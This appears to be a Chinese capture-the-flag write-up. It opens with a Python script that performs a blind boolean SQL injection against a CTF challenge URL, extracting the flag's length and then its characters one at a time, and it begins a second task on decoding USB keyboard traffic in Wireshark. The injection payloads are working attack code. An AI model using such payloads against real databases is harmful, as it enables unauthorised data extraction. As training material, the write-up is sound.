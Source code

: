 代码记录

```
import requests

url = "http://119.29.191.200/ctf/7601547c91c318b3f60df2a6f1f7b69a407affa2/index.php?id=11864"
strs = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIGKLMNOPQRSTUVWXYZ@_.{}-"


def check_flag_len():
    flag_len = 0
    for i in range(0, 500):
        sql = "%27%20and%20(select%20length(flag)%20from%20flag)%3E" + str(i) + "%23)"
        result = requests.get(url+sql)
        if not result.text.find("HELLO") > 0:
            flag_len = i - 1
            break

    return flag_len


def find_flag(flag_len):
    flag = ""
    while len(flag) < flag_len:
        for i in strs:
            sql = "%27%20and%20substring((select%20flag%20from%20flag%20)%20from%20" + str(len(flag)+1) + "%20for%201%20)=%27" + i
            result = requests.get(url+sql)
            if result.text.find("HELLO") > 0:
                flag = flag + i
                print(flag)

```


# 一段奇怪的流量


X同学最近抓了一个流量包，你能分析下包的内容吗？                        



用Wireshark打开，发现是USB流量包。没有思路，于是搜索发现一篇文章。[【技术分享】从CTF中学USB流量捕获](http://bobao.360.cn/learning/detail/3351.html)


这个USB流量包也许就是鼠标或键盘的流量，然后通过观察Wireshark流量，中间有一段非常规律，不连续的流量。十六进制符合键盘流量的特征。  
![image](http://7xkmnm.com1.z0.glb.clouddn.com/%E6%88%AA%E5%9B%BE1.PNG)


参考文章的程序，提取出一段数据。貌似没有区分大小写，看文档，大小写都是同一个信号。 
> Usage of keys is not modified by the state of the Control, Alt, Shift or Num Lock keys. That is, a key does not send extra 
codes to compensate for the state of any Control, Alt, Shift or Num Lock key.
